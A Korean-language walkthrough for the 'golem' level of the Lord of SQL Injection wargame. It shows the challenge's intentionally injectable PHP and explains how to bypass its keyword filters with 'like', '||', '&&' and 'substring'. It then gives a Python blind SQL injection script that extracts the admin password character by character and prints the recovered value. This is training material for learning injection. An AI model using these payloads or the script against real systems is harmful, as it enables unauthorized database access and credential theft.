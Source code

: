 ## Lord of SQL Injection No. 11- golem
## 문제 출제 의도
substr과 대입연산자 없이 SQL 문을 조작할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
Golem의 소스 코드는 다음과 같다.   
    ~~~ 
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 문자열에 'or, and , substr( , =중 하나라고 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 한 레코드의 id 값이 'admin'이고 pw값이 입력한 pw 값과 같을 떄 즉 id가 'admin'인 회원의 pw값을 알아내야 한다.
## 문제 해결
+ like
    - 대입 연산자를 대체하여 그 자리에 동일하게 like를 삽입하면 '='을 사용하지 않고 SQL문을 조작 가능하다.

+ Sugstring
    - substr과 동일한 기능을 하는 함수로 substr 대신 사용하면 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
            data = "' || id like 'admin' && substring(pw,1,{}) like '{}'#".format(str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0") 
            re.add_header("Cookie", "PHPSESSID=6ckrsnfovcd74972o80ugmksb4")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
        print(key)
    ~~~
    - 이를 실행하면 pw=88e3137f가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.